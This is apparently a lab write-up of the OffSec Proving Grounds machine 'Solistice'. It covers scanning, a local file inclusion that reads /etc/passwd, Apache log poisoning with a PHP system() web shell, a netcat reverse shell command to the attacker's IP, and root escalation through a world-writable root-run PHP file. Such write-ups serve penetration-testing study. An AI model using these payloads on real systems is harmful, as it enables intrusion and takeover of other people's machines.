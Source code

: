 ```yaml
---
title: OffSec PG - Solistice
date: 2021-12-19 12:00:00 +0500
categories: [Lab Practice Notes, OffSec Proving Grounds]
tags: [oscp,lab,offsec-proving-grounds]
image:
  path: /assets/img/covers/pg-cover.jpeg
  alt: PG Artwork
---
```


## Enumeration

Machine IP &rarr; `192.168.124.72`

### Network Scan

Nmap scan &rarr; `nmap -A -Pn -p- -T4 -o nmap.txt 192.168.124.72`

OS Detection &rarr;  `OS: Linux; CPE: cpe:/o:linux:linux_kernel`

| **Port** | **Service** | **Other details (if any)**                                                     |
| -------- | ----------- | ------------------------------------------------------------------------------ |
| 21       | FTP         | pyftpdlib 1.5.6                                                                |
| 22       | SSH         | OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)                                 |
| 25       | SMTP        | Exim smtpd                                                                     |
| 80       | HTTP        | Apache httpd 2.4.38 ((Debian))                                                 |
| 2121     | FTP         | pyftpdlib 1.5.6 &rarr; *Anonymous Login Allowed*                                    |
| 3128     | HTTP Proxy  | Squid http proxy 4.6                                                           |
| 8593     | HTTP        | PHP cli server 5.5 or later (PHP 7.3.14-1) &rarr; *PHPSESSID HTTPOnly flag not set* |
| 54787    | HTTP        | PHP cli server 5.5 or later (PHP 7.3.14-1)                                     |
| 62524    | \-          | \-                                                                             |

### Web Scan

GoBuster scan &rarr; `gobuster dir -u http://192.168.124.72 -w /home/tanq/installations/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,php`

Nothing interesting was revealed in any of the ports.

---

## Exploitation

### LFI

The web server running at port 8593 has the ability to list books via PHP. This is done via a get parameter. Trying LFI with `../../../../../../etc/passwd` confirms LFI and gives the result of the file to list possible users which includes `www-data`, `miguel` and `root`.

### Transition LFI to Apache log poisoning

The default apache error logs are located at `/var/log/apache2/error.log`. This is readable on the browser because of the LFI vulnerability. Therefore, adding php code to an attempt would add it to the error log and subsequently render it on the webpage.

Therefore visiting the url `http://192.168.124.72/<?php system($_GET['cmd']);?>` should add it to the error log, thereby giving an RCE for the get request parameter in the LFI url. The access via the browser encodes the special characters, therefore a burp repeater request modification should do the trick.

### Exploiting the RCE

With the php payload injected into the access log, the lfi url can be modified to add the parameter value for the `cmd` variable. Testing with `id` works. Next, this can used to test if nc, wget, etc. exist on the system which can be used to create a shell payload. This is the RCE on the server.

Both netcat and bash shell exist, therefore sending a payload `nc -e /bin/bash 192.168.49.124 3002` with a listener active on the local machine gives a shell with the user `www-data`.

---

## Privilege Escalation

Looking at the setuid files and directories using `find / -perm -u=s 2>/dev/null`, there is a server running at `/var/tmp/sv` which is a directory that is owned by `root` and is world-writable.

This has an `index.php` file which just prints that the site is under construction. This cannot be observed from any of the ports enumerated above. Checked the status of this under processes using `ps aux | grep root | grep sv`. This confirms that the server is actually running, but on localhost only. Therefore, this php file can be edited to have a payload that connects back to the attacker machine to get a reverse shell. Due to the permissions, this would be the root shell.

The pentest monkey reverse shell is uploaded to the server and the contents of the `index.php` file are overwritten with them. Then the execution can be done as follows on the low privileged shell &rarr; `curl http://localhost:57/index.php`

This gives a shell as the `root` user and thus the root flag as well.

---
